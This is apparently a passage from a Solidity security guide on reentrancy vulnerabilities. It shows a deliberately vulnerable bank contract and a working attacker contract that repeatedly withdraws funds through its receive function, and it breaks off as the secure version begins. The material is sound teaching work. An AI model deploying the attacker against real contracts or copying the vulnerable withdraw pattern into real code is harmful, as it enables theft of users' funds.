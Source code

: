 ## 🚨 Critical Vulnerabilities

### 1. Reentrancy Attacks

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title ReentrancyExamples
 * @dev Demonstrates reentrancy vulnerabilities and proper fixes
 */
contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    // VULNERABLE: Classic reentrancy attack vector
    function withdraw(uint256 amount) external {
        require(balances[msg.sender] >= amount, "Insufficient balance");

        // DANGER: External call before state update
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        // VULNERABLE: State updated after external call
        balances[msg.sender] -= amount;
    }
}

/**
 * @title AttackContract
 * @dev Exploits reentrancy vulnerability
 */
contract ReentrancyAttacker {
    VulnerableBank public bank;
    uint256 public attackAmount = 1 ether;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    function attack() external payable {
        require(msg.value >= attackAmount, "Need attack funds");
        bank.deposit{value: attackAmount}();
        bank.withdraw(attackAmount);
    }

    // Reentrancy attack happens here
    receive() external payable {
        if (address(bank).balance >= attackAmount) {
            bank.withdraw(attackAmount);
        }
    }
}

/**
 * @title SecureBank
 * @dev Properly secured against reentrancy
```